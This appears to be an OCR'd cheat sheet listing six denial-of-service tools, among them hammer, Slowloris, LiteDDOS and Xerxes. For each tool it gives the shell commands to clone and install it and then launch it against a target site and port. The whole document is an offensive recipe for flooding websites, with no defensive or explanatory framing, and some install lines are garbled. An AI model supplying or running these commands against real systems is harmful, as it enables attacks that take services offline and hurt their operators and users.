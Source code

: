 ¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶¶

¹ ddos-mbledos

    cd /usr/share/ && apt update && apt upgrade -y && apt install python python3 install git -y && git clone https://github.com/RaphSoft/ddos-mbledos.git && cd /usr/share/ddos-mbledos
#
    python2 ddos.py

ꕤꕤꕤꕤꕤ

¹ Lucita DDOS

    cd /usr/share && apt update && apt upgrade && apt install python git -y && git clone https://github.com/zlucifer/lucita_ddos && cd lucita_ddos && chmod +x pukul.py
#
    python pukul.py

ꕤꕤꕤꕤꕤ

¹ hammer

    cd /usr/share && apt install python python python3 git -y && git clone https://github.com/cyweb/hammer && cd hammer && chmod +x hammer.py
#
    python3 hammer.py -s site.com -p 80 -t 137

ꕤꕤꕤꕤꕤ

¹ Slowloris

    apt install python python-pip -y && pip install slowloris
#
    cd /usr/share && git clone https://github.com/gkbrk/slowloris.git && cd slowloris && python setup.py install
#
    slowloris -p 80 -s 15 site.com

    python3 slowloris.py


ꕤꕤꕤꕤꕤ

¹ LiteDDOS

    cd /usr/share && apt update -y && apt upgrade -y && apt install git python && git clone https://github.com/4L13199/LITEDDOS && cd LITEDDOS && chmod +x LITEDDOS.py
#
    python2 LITEDDOS.py ip 443 137


ꕤꕤꕤꕤꕤ

¹ Xerxes

    cd /usr/share && apt install git clang -y && git clone https://github.com/XCHADXFAQ77X/XERXES.git && cd XERXES && clang xerxes.c -o xerxes
#  
     ./xerxes website 80

